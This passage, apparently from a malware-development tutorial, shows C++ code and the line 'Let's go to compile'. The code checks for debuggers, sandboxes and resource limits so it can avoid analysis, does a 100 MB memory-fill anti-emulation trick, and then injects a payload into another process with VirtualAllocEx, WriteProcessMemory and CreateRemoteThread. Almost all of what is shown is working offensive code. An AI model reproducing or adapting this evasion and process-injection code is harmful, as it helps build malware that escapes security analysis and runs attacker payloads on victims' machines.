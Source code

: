```cpp
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}

```

Let's go to compile:
